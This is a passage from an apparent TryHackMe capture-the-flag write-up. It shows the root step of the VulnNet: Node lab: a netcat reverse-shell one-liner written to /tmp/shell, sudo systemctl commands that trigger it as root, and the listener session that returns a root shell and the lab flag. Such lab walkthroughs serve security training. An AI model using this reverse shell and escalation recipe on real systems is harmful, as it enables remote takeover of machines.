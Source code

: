 Create a reverse shell at `/tmp/`

```
echo "#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.97.213 4242 >/tmp/f" > /tmp/shell
```

Don’t forget to `changemod` the shell for being executed

```
chmod +x /tmp/shell
sudo -u root /bin/systemctl stop vulnnet-auto.timer
sudo -u root /bin/systemctl daemon-reload
sudo -u root /bin/systemctl start vulnnet-auto.timer
```

Start the `Netcat Listener` on the local machine → `stop vulnnet-auto.timer`,`reload daemon`,`start vulnnet-auto.timer` → Gain root → Get the flag

```
┌──(kali㉿kali)-[~/TryHackMe/VulnNet/Node]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.49.76] 39204
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{abea728f211b105a608a720a37adabf9}
```
